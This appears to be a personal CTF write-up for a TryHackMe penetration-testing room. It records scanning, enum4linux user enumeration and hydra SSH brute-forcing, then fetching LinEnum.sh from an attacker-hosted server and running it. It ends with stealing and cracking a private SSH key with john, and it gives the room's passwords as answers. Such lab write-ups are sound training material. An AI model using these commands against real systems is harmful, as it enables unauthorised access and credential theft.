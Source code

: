# Basic Pentesting
- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Deploy the machine and connect to our network

Find the services exposed by the machine
Command : `nmap -sV 10.10.118.181`

![Pasted image 20251001112217.png](thm_pics/Pasted%20image%2020251001112217.png)

What is the name of the hidden directory on the web server(enter name without /)?
Command : `gobuster dir -u http://10.10.118.181 -w /usr/share/wordlists/dirb/common.txt`

![Pasted image 20251001112610.png](thm_pics/Pasted%20image%2020251001112610.png)

- hidden directory = development

User brute-forcing to find the username & password
- now, lets focus on port SMB to find SMB usernames
- Command : `enum4linux 10.10.118.181`

![Pasted image 20251001130126.png](thm_pics/Pasted%20image%2020251001130126.png)

- Users list = kay,jan,ubuntu (probably not)
- hydra can only be used for smbv1
- since **port 22** is also open, maybe we can use hydra for that
- Command : `hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.118.181 ssh`

What is the username?
jan

What is the password?
armando

What service do you use to access the server(answer in abbreviation in all caps)?
SSH

Enumerate the machine to find any vectors for privilege escalation
- find binaries with SUID bit set
- Command :  `find / -type f -perm -04000 -ls 2>/dev/null`

![Pasted image 20251001141751.png](thm_pics/Pasted%20image%2020251001141751.png)

- sudo can be helpful, lets try using sudo to cat /etc/shadow file

![Pasted image 20251001141908.png](thm_pics/Pasted%20image%2020251001141908.png)

- cannot, lets see which commands jan can run with sudo (`sudo -l`)

![Pasted image 20251001142134.png](thm_pics/Pasted%20image%2020251001142134.png)

- jan cannot run anything with sudo!
- Hint says : Use **LinEnum** for privexec checklist
- Cloned LinEnum

![Pasted image 20251001142529.png](thm_pics/Pasted%20image%2020251001142529.png)

- host a file by using `python3 -m http.server 80`
- on target : `wget http://10.23.125.244:80/LinEnum.sh`

![Pasted image 20251001143018.png](thm_pics/Pasted%20image%2020251001143018.png)

- permission denied again
- this command worked : `wget -O /tmp/LinEnum.sh http://10.23.125.244:80/LinEnum.sh`
- go to /tmp dir and changed permission : `chmod +x LinEnum.sh`
- executed `./LinEnum.sh`

![Pasted image 20251001144044.png](thm_pics/Pasted%20image%2020251001144044.png)

- try listing files in /home/kay directory

What is the name of the other user you found(all lower case)?
kay

If you have found another user, what can you do with this information?
- try ls -la to see we can access which files in kay's directory

![Pasted image 20251001144432.png](thm_pics/Pasted%20image%2020251001144432.png)

- in `/home/kay/.ssh/authorized_key`, there is a ssh-rsa file here, but this is the public key. we should try to find private key
- This tells you algorithm, bit-size and fingerprint : Command : `ssh-keygen -lf /home/kay/.ssh/authorized_keys`

![Pasted image 20251001150251.png](thm_pics/Pasted%20image%2020251001150251.png)

- This is the path to private key : `cat /home/kay/.ssh/id_rsa`  because it begins with "BEGIN RSA PRIVATE KEY"
- still cannot login because i dont have a passphrase

![Pasted image 20251001151002.png](thm_pics/Pasted%20image%2020251001151002.png)

**Use John to brute the passphase**
1. Extract crackable blob : `python3 /usr/share/john/ssh2john.py key_privatekey > key.hash` 
2. run john with a wordlist : `john --wordlist=/usr/share/wordlists/rockyou.txt key.hash`

![Pasted image 20251001152355.png](thm_pics/Pasted%20image%2020251001152355.png)

- Passphase = beeswax
- try logging in again using ssh and the actual **private key** (not the crackable blob)

![Pasted image 20251001152803.png](thm_pics/Pasted%20image%2020251001152803.png)

- woohoo! can login now!
- now, lets find the actual pass in plaintext

![Pasted image 20251001152842.png](thm_pics/Pasted%20image%2020251001152842.png)

What is the final password you obtain?
heresareallystrongpasswordthatfollowsthepasswordpolicy$$